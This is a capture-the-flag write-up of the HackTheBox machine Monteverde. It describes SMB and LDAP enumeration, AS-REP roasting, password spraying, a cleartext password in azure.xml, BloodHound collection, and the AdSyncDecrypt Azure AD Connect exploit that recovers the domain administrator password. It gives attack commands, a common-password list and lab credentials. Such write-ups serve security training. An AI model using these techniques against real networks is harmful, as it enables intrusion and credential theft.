# HackTheBox - Monteverde

## NMAP

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version                                                          
|_    bind   
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-11 11:29:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?                                              
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped                                             
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped                                             
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                   
|_http-title: Not Found                                                
9389/tcp  open  mc-nmf        .NET Message Framing                
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
59490/tcp open  msrpc         Microsoft Windows RPC
Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-11T11:32:09
|_  start_date: N/A

NSE: Script Post-scanning.
```

From the nmap scan we can see that port 88 is open which is used by kerberos so this machine is an active directory machine

## PORT 139/445 (SMB)

We can try to see if we can login to smb share through unauthenticated  user

<img src="https://i.imgur.com/uLMLvqY.png"/>

We were logged in but don't see any share so moving on , we can try to use `enum4linux` or `windapsearch` which can enumerate users from `LDAP` queries, from the nmap scan we can find the domain name which is `MEGABANK.local` so put that in `/etc/hosts` file

<img src="https://i.imgur.com/ascUJe4.png"/>

This will list service accounts and domain users, let's try doing it with enum4linux-ng

<img src="https://i.imgur.com/AovizRf.png"/>

Now this tool provides us better results so I'll go with this and note the usernames in a text file 

<img src="https://i.imgur.com/JLz21lM.png"/>

<img src="https://i.imgur.com/uwyRAg7.png"/>'

Next I tried to see which users have pre-authentication disabled on them so I can get a hash of the user account

```bash
python3 GetNPUsers.py -dc-ip 10.10.10.172 MEGABANK.local/arz -usersfile ~/Notes/CTFs/HTB/Medium/Monteverde/users.txt
```

<img src="https://i.imgur.com/ExajSLn.png"/>

But we didn't had any luck doing AS-REP roasting , next we could try some common passowrds and brute force it against smb , I created a list of common passwords

```
12345678
admin
dgalanos
roleary
smorgan
password
password123
Password
Password123
1234567
```

<img src="https://i.imgur.com/mxUfCRV.png"/>

But it didn't work , so I tried to use the usernames as a password list

<img src="https://i.imgur.com/88g93wf.png"/>

And this found as a valid username and password for smb , so I tried it on winrm to see if I can get a shell and sadly they weren't valid for winrm

<img src="https://i.imgur.com/7DDNerC.png"/>

<img src="https://i.imgur.com/cAS3Z7A.png"/>

We have read access to `azure_uploads` but it was emtpy

<img src="https://i.imgur.com/GdqKo7l.png"/>

## Foothold

Checking the `users$` share we see a `azure.xml` file in `mhope` 's directory

<img src="https://i.imgur.com/fthQiHp.png"/>

On reading the xml we can find a clear text password

<img src="https://i.imgur.com/09tY5r0.png"/>

So let's run crackmapexec again to see if we got the correct password

<img src="https://i.imgur.com/bx9HE1a.png"/>

Using `evil-winrm` we can use that to login over winrm , after logging in we can see that this user is in `Azure Admins` group

<img src="https://i.imgur.com/ZiXIvSO.png"/>

Upload `Sharphound.ps1` file which is used for collecting information of AD and then using that info we can enumerate the AD using `bloodhound`

<img src="https://i.imgur.com/IO39L01.png"/>

```powershell
Invoke-Bloodhound -CollectionMethod All -Domain MEGABANK.local -ZipFileName loot.zip
```

<img src="https://i.imgur.com/hcYJRf3.png"/>

We can download this archive file by using evil-winrm's download function in which we have to provide absolute path of the file

<img src="https://i.imgur.com/euT3S5F.png"/>

Now let's launch `neo4j console` and `bloodhound` , import the json files that you get after extracting the archive

<img src="https://i.imgur.com/s4wygU1.png"/>

Running any one of the built-in queries to see if data is actually loaded

<img src="https://i.imgur.com/pW0YTB0.png"/>

But here I didn't find anything that would help me escalate privileges

<img src="https://i.imgur.com/eRY82TY.png"/>

## Privilege Escalation

Now remeber that we saw mhope was in Azure admins group so maybe we have to abuse that ,searching of Azure AD related exploit I found an article which would exploit the database and give us the plaintext password 

<img src="https://i.imgur.com/BwbZJTG.png"/>

Download the executable for this exploit from here

https://github.com/VbScrub/AdSyncDecrypt/releases

<img src="https://i.imgur.com/jdBsHAp.png"/>

And now uploading the exe and the dll file , in order to run this we need to be in this location `C:\Program Files\Microsoft Azure AD Sync\Bin` and from here execute the exe (doesn't matter where we upload it)

<img src="https://i.imgur.com/EANqNET.png"/>

<img src="https://i.imgur.com/64O8bgU.png"/>

This gives us the adminstrator's password 

<img src="https://i.imgur.com/oZk1HoM.png"/>

We can then further extract user hashes

<img src="https://i.imgur.com/HJAqL8C.png"/>


## References

https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/


```
SABatchJobs:SABatchJobs


smbclient -U 'SABatchJobs'  \\\\10.10.10.172\\azure_uploads
smbclient -U SABatchJobs -L  \\\\10.10.10.172\
```

Administrator:d0m@in4dminyeah!
